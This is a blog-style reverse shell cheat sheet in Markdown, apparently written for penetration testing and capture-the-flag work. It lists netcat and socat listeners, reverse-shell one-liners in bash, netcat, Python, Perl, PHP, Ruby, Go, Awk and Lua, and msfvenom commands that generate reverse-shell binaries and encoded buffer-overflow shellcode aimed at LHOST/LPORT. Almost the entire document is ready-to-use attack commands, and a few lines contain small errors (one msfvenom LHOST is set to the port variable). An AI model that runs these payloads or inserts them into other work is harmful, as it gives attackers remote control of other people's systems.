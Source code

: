 ```yaml
---
layout: post
author: hyprcub
title: Reverse Shell Cheat Sheet
tags: cheatsheet
---
```

# References

- [Get Reverse-shell via Windows one-liner](https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/)
- Reverse shell cheat sheets:
	- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is really awesome place to look for exotic shells
	- [HighOn.Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
	- [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

# General advices

- Don't forget to check for other shells than `sh` or `bash`: `ash`, `bsh`, `csh`, `ksh`, `zsh`, `pdksh`, `tcsh`. And so one, be creative.
- If your favorites `1234` or `1337` TCP ports don't work, try `80/tcp` or UDP ports as there's maybe filtering in place.
- In the following, replace `LHOST` with your IP and `LPORT` with your port.

# Listeners

| Command                                | Description          |
|----------------------------------------|----------------------|
| `nc -nlvp LPORT`                       | Netcat on TCP        |
| `nc -u -nlvp LPORT`                    | Netcat on UDP        |
| `socat -d -d TCP4-LISTEN:LPORT STDOUT` | Socat (yes 2 `-d`'s) |

# Short One-liners


| Command                                                        | Description                                      |                         |                                           |
|----------------------------------------------------------------|--------------------------------------------------|-------------------------|-------------------------------------------|
| `nc -nv LHOST LPORT -e /bin/sh`                                | [Traditional netcat](http://www.stearns.org/nc/) |                         |                                           |
| `ncat -nv LHOST LPORT -e /bin/sh`                              | [Nmap ncat](https://nmap.org/ncat//)             |                         |                                           |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f                            | /bin/sh -i 2>&1                                  | nc LHOST LPORT >/tmp/f` | OpenBSD netcat (doesn't have `-e` switch) |
| `socat TCP4:LHOST:LPORT EXEC:/bin/sh`                          | [Socat](http://www.dest-unreach.org/socat/)      |                         |                                           |
| `/bin/bash -i >& /dev/tcp/LHOST/LPORT 0>&1`                    | Bash TCP, works with `sh` too                    |                         |                                           |
| `/bin/bash -i >& /dev/udp/LHOST/LPORT 0>&1`                    | Bash UDP with listener `nc -u -lvp LPORT`        |                         |                                           |
| `0<&196;exec 196<>/dev/tcp/LHOST/LPORT; sh <&196 >&196 2>&196` | sh                                               |                         |                                           |

# Language Specific (Linux mostly)

Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("LHOST",LPORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Perl
```
perl -e 'use Socket;$i="LHOST";$p=LPORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

PHP
```
php -r '$sock=fsockopen("LHOST",LPORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Ruby
```
ruby -rsocket -e'f=TCPSocket.open("LHOST",LPORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

Golang
```
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","LHOST:LPORT");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;http://cmd.Run();}'>/tmp/sh.go&&go run /tmp/sh.go
```

Awk
```
awk 'BEGIN {s = "/inet/tcp/0/LHOST/LPORT"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

Lua
```
lua -e "require('socket');require('os');t=socket.tcp();t:connect('LHOST','LPORT');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

# Msfvenom generated 

Here the shell variables `lhost` and `lport` are set accordingly:
```bash
export lhost=$(ip address show tun0 | grep "inet " | awk '{print $2}' | cut -d "/" -f 1)
export lport=443
```

| Command                                                                                                                                            | Description                           |
|----------------------------------------------------------------------------------------------------------------------------------------------------|---------------------------------------|
| `msfvenom -p cmd/unix/reverse_netcat LHOST=$lhost LPORT=$lport`                                                                                    | netcat                                |
| `msfvenom -p linux/x86/shell_reverse_tcp LHOST=$lhost LPORT=$lport -f elf -o myshell`                                                              | Linux 32bits bin                      |
| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=$lhost LPORT=$lport -f elf -o myshell`                                                              | Linux 64bits bin                      |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=$lhost LPORT=$lport -f war -o myshell.war`                                                           | Tomcat                                |
| `msfvenom -p windows/shell_reverse_tcp LHOST=$lhost LPORT=$lport -f exe -o myshell.exe`                                                            | Windows bin                           |
| `msfvenom -p windows/shell_reverse_tcp LHOST=$lport LPORT=$lport -f asp -o myshell.asp`                                                            | ASP                                   |
| `msfvenom -p windows/shell_reverse_tcp LHOST=$lhost LPORT=$lport EXITFUNC=thread -f python -v shellcode -e x86/shikata_ga_nai -b "\x00\x0a\x0d"`   | Windows Shellcode for Buffer Overflow |
| `msfvenom -p linux/x86/shell_reverse_tcp LHOST=$lhost LPORT=$lport EXITFUNC=thread -f python -v shellcode -e x86/shikata_ga_nai -b "\x00\x0a\x0d"` | Linux Shellcode for Buffer Overflow   |
